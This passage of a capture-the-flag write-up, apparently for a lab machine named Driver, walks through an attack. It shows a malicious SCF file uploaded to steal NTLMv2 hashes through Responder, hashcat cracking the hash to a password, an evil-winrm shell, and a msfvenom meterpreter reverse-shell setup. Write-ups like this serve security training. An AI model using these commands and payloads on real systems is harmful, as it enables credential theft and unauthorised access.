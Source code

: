 First, we start [`responder`](https://www.kali.org/tools/responder/) with `sudo responder -w --lm -v -I tun0`.

Then, we upload the following SCF file using the firmware upload page (`fw_up.php`) on port 80.

```
[Shell]
Command=2
IconFile=\\10.10.14.32\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Responder outputs the following:

```
[SMB] NTLMv2 Client   : ::ffff:10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:566dd632a8e52118:AA64BDEA4F87F24A42C8CDFA48DF7780:0101000000000000FA685E0C8F25D801E8816037B7647BED00000000020000000000000000000000
```

We have our NTLM hash!

### Cracking the NTLM Hash

We can crack this hash with `hashcat`. We first find the `hashcat` mode needed for NTLMv2 hashes with `hashcat --help | grep NTLMv2`, which shows us the correct mode is `5600`.

So, we paste the hash into a file called `hash` and then run `hashcat` with `hashcat -a 0 -m 5600 hash rockyou.txt`:

```
TONY::DRIVER:566dd632a8e52118:aa64bdea4f87f24a42c8cdfa48df7780:0101000000000000fa685e0c8f25d801e8816037b7647bed00000000020000000000000000000000:liltony
```

The password is `liltony`.

### Evil WinRM

According to [HackTricks](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm#using-evil-winrm), we can use `evil-winrm` like so: `evil-winrm -u <username> -p <password> -i <IP>`. Let's connect with the `tony` user like so: `evil-winrm -u tony -p liltony -i 10.10.11.106`.

We get a shell on the machine! Now, we can get the `user.txt` flag with `cat ..\Desktop\user.txt`.

## Privilege Escalation

Let's upload [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) to scan for ways to gain privileges. Since we are using `evil-winrm` we can simply run the `upload` command: `upload /home/kali/Downloads/winPEASx64.exe`. We can run it with `.\winPEASx64.exe`. This doesn't give any easy wins.

To get a metasploit shell run the following on the attacker:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe > e.exe
sudo msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
options
run
```
